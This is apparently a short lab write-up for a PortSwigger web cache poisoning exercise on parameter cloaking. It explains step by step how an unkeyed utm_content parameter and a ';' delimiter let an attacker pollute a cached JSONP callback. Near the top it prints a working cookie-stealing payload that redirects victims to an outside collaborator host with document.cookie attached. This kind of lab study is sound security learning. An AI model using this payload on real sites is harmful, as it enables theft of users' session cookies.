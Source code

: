 >Below is [Url Decoded](https://www.urldecoder.org/) payload.  

```
GET/js/geolocate.js?callback=setCountryCookie&utm_content=fuzzer;callback=document.location='https://OASTIFY.COM?nuts='+document.cookie; HTTP/2
```  

[PortSwigger Lab: Parameter cloaking](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-param-cloaking)

Lab summary:

1. Notice Parameter pollution (server interprets second parameter instead of first one) in `callback` parameter:

![pp](images/parameterPollution.png)

2. Notice unkeyed parameter `utm_content` (not included in cache key)

![pp](images/2-unkeyed_header.png)

Build an attack using `utm_content` to try to pollute `callback` parameter in order to inject code. As `utm_content` is not part of cache key, the original request `/js/geolocate.js?callback=setCountryCookie` request will recieve the polluted cache.

So, first step is to inject code via `;`. Cache interprets the content of `utm_content` as a whole string, but back end server interprets the two fields separated by `;` and does the parameter pollution. 
